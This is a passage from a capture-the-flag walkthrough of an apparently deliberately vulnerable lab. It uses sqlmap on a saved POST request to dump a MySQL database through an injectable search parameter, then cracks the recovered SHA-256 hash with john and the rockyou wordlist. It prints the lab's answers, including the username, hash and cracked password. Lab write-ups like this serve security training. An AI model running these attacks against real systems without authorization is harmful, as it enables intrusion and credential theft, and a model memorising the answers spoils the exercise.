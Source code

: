 We can save this to a file and then pass this to SQLMap to authenticate user session:
```shell-session
$ sqlmap -r portal-request.txt --dbms=mysql --dump

...
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

...

POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

...

do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y

...

do you want to crack them via a dictionary-based attack? [Y/n/q] 

...

what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

...

do you want to use common password suffixes? (slow!) [y/N] N

...
```

This gives us the password hash for the user: `agent47`.

> In the users table, what is the hashed password?
>
> Answer: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password?
>
> Answer: `agent47`

We also obtain entries listed in a table called: `post` under the database: `db`.

> What was the other table name?
>
> Answer: `post`


Now that the password hash for `agent47` is obtained, we can use `john` to crack this and obtain the password for the user. 
```shell-session
$ echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > hash.txt

$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
...
videogamer124    (?)     
```
